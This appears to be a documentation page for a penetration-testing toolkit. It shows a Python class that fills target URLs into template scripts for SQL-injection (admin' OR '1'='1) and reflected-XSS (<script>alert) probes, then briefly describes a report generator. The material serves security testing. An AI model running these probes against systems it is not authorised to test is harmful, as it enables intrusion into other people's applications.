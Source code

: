 **Implementation**:
```python
# vertice/ai/modules/poc_generator.py

class PoCGenerator:
    TEMPLATES = {
        "sqli": """
import requests

url = "{target}"

payloads = [
    "admin' OR '1'='1",
    "admin' OR '1'='1'--"
]

for payload in payloads:
    response = requests.get(url, params={{"{param}": payload}})
    if "{success_indicator}" in response.text:
        print(f"✅ VULNERABLE: {{payload}}")
        break
""",
        "xss": """
import requests

url = "{target}"
payload = '<script>alert("XSS")</script>'

response = requests.post(url, data={{"{param}": payload}})

if payload in response.text:
    print("✅ VULNERABLE: Reflected XSS")
else:
    print("❌ Not vulnerable")
"""
    }

    def generate(self, vuln_type: str, target: str, **kwargs) -> str:
        template = self.TEMPLATES.get(vuln_type)
        if not template:
            raise ValueError(f"Unsupported vuln type: {vuln_type}")

        return template.format(target=target, **kwargs)
```

---

### 5. Report Drafter

**Purpose**: Auto-generate professional penetration test reports from workspace data.

**Output Formats**:
- PDF (executive summary + technical details)
- HTML (interactive, searchable)
- Markdown (for documentation)
- JSON (for integration with other tools)
